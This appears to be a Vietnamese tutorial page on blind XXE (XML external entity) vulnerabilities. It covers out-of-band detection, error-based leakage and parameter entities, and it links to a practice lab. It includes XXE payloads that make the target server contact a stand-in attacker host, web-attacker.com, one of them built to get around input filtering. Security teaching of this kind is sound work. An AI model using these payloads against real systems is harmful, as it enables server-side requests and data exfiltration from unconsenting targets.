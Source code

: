 # Overview:

Lỗ hổng XXE mù (Blind XXE) xảy ra khi ứng dụng bị tổn thương bởi XXE injection nhưng không trả về giá trị của bất kỳ thực thể bên ngoài nào trong phản hồi. Điều này làm cho việc khai thác blind XXE khó khăn hơn so với các lỗ hổng XXE thông thường.

Để tìm và khai thác các lỗ hổng blind XXE, bạn có thể sử dụng các phương pháp sau:

1. Kích hoạt tương tác mạng ngoài phạm vi: Bạn có thể tạo ra các yêu cầu mạng tới các hệ thống bên ngoài mà ứng dụng có thể truy cập. Đồng thời, bạn cần tạo ra một cơ chế để thu thập thông tin hoặc dữ liệu nhạy cảm từ các yêu cầu này. Ví dụ, bạn có thể thiết lập một máy chủ nghe (listener) để nhận dữ liệu exfiltrated từ ứng dụng.

2. Kích hoạt lỗi phân tích XML để thu thập thông tin nhạy cảm: Bạn có thể thử gây ra lỗi phân tích XML bằng cách đưa vào các dữ liệu không hợp lệ hoặc gây ra xung đột trong cú pháp XML. Sau đó, bạn sẽ kiểm tra các thông báo lỗi hoặc thông báo phản hồi từ ứng dụng để tìm thông tin nhạy cảm như đường dẫn tệp, tên người dùng, hoặc thông tin hệ thống khác.

# Phát hiện lỗ hổng blind XXE bằng cách sử dụng kỹ thuật out-of-band (OAST):

Bạn có thể phát hiện lỗ hổng blind XXE bằng cách sử dụng kỹ thuật out-of-band (OAST) giống như cho các cuộc tấn công XXE SSRF, nhưng kích hoạt tương tác mạng ngoài phạm vi đến một hệ thống mà bạn kiểm soát. Ví dụ, bạn sẽ xác định một thực thể bên ngoài như sau:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```

Thông qua việc xác định thực thể bên ngoài này, bạn có thể tạo ra các yêu cầu HTTP hoặc DNS đến hệ thống mà bạn kiểm soát. Bằng cách theo dõi các yêu cầu đến hệ thống của bạn, bạn có thể xác định thông tin nhạy cảm hoặc thu thập dữ liệu từ ứng dụng mục tiêu.

Thực hành [ở đây](https://github.com/Llam-a/XML-external-entity-XXE-injection/blob/main/Exercises/Lab%3A%20Blind%20XXE%20with%20out-of-band%20interaction%20via%20XML%20parameter%20entities.md).

Đôi khi, các cuộc tấn công XXE sử dụng các thực thể thông thường bị chặn do việc kiểm tra đầu vào bởi ứng dụng hoặc việc tăng cường bảo mật của trình phân tích cú pháp XML đang được sử dụng. Trong tình huống này, bạn có thể sử dụng thực thể XML thông số thay thế. Thực thể XML thông số là một loại đặc biệt của thực thể XML chỉ có thể được tham chiếu ở nơi khác trong DTD. Đối với mục đích hiện tại, bạn chỉ cần biết hai điều. Thứ nhất, khai báo một thực thể XML thông số bao gồm ký tự phần trăm trước tên enitity:

```xml
<!ENTITY % myparameterentity "my parameter entity value" >
```
và

```xml
%myparameterentity;
```
Điều này có nghĩa là bạn có thể kiểm tra các lỗ hổng XXE mù bằng cách sử dụng phát hiện ngoài dòng thông qua các thực thể XML thông số như sau:

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

Thực hành ở đây.

